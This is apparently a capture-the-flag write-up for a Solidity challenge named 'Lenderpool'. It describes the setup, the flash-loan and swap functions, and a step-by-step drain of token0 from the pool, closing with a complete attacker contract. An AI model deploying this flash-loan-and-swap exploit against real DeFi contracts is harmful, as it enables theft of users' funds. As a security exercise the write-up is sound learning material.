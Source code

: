# Lenderpool

## Introduction
The objective is to drain all available ``token0`` from ``lenderPool``. 

## Environment
These are the IDEs and langauges used to set up the environment.

- Remix IDE

- Ganache-cli


## Setup
Here's a quick setup 

1) Download ganache-cli with ``yarn global add ganache``

2) Run ganache-cli with ``ganache-cli``

3) Go to remix IDE -> Deploy & Run transaction -> Environment -> Choose 'Dev - Ganache Provider'

4) Create a solidity file -> copy and paste the smart contract 

5) Compile and deploy

6) Start messing around

## Code Breakdown

There are 2 contracts to look at **LenderPool** and **Check**

### Check

The first thing to look at is function ``isSolved()``. The clear condition is to drain all ``token0`` from ``lenderPool``.
```
function isSolved()  public view returns(bool){
    if(token0.balanceOf(address(lenderPool)) == 0){
        return  true;
    }
    return false;
}
```

### LenderPool

The next 2 functions to look at is **swap** and **flashLoan**

**flashLoan**

This is a simple flash loan function that can only be called by another smart contract. 

Here's an ELI5 of what it does:
- You can only flash loan ``token0``
- Ensure that the current balance of ``token0`` is equal or more than the amount that is needed to be borrowed
- It calls for the function ``receiveEther(uint256)`` in the calling contract
- It checks the current balance after flash loan to ensure that the amount is the same or more than before the loan.
```
uint256 balanceAfter = token0.balanceOf(address(this)); 
require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
```

**swap**

This function swaps the amount of ``token0`` with ``token1`` vice versa.


## Hints

You'll need to create a smart contract to do the following:

1) Flash loan all available ``token0`` in ``LenderPool``
2) Using the **swap** function, convert ``token1`` to ``token0`` to trick the smart contract into 'returning' the flashloan
3) Using the **swap** function, convert the remaining ``token0`` into ``token1``

## Solutions

The confusing portion is the ``swap`` function.

Here's the detailed breakdown of what is happening.

<em>Note: There is 100000000000000000000 available tokens but for simplicity sake, I'll just put it as 100.</em>

This is the default setup in **LenderPool**

| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 100 | 100 | 0 | 0 |


After calling ``receiveFlashLoan()``.

<em>Note: Function is based on the solution provided at the bottom</em>
| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 0 | 100 | 100 | 0 |


**LenderPool** calls for ``receiveEther(uint256)`` in attacker contract

A swap in **LenderPool** is conducted where all ``token1`` is converted to ``token0``.
| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 100 | 0 | 100 | 0 |



**LenderPool** checks that ``token0`` is the same as before the flashloan.

With that, ``flashLoan`` ended.

Using ``swap`` again, we'll convert existing ``token0`` into ``token1`` in **LenderPool**.
| LenderPool || Attacker||
| - | - | - | - |
| ``token0`` | ``token1`` | ``token0`` | ``token1`` |
| 0 | 100 | 100 | 0 |

As such, **LenderPool** has 0 ``token0``. 

Calling ``isSolved()`` from **Check** will return true.

Here's the attacker smart contract.
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.16;

import './lender_pool.sol';

contract LenderPool_attack {

    LenderPool public lenderPool;
    IERC20 public token0;
    IERC20 public token1;

    constructor(LenderPool _lenderPool){
        lenderPool = LenderPool(_lenderPool);
        token0 = lenderPool.token0();
        token1 = lenderPool.token1();
    }

    function getTokens() public view returns (uint256, uint256){
        return (token0.balanceOf(address(lenderPool)), token1.balanceOf(address(lenderPool)));
    }

    function receiveEther(uint256 amount) external{
        lenderPool.swap(address(token1), amount);
    }

    function receiveFlashLoan() public{
        token0.approve(address(lenderPool), token0.balanceOf(address(lenderPool)));
        token1.approve(address(lenderPool), token1.balanceOf(address(lenderPool)));
        lenderPool.flashLoan(
            token0.balanceOf(address(lenderPool)),
            address(this)
        );
        lenderPool.swap(address(token0), token0.balanceOf(address(lenderPool)));
    }
}
```

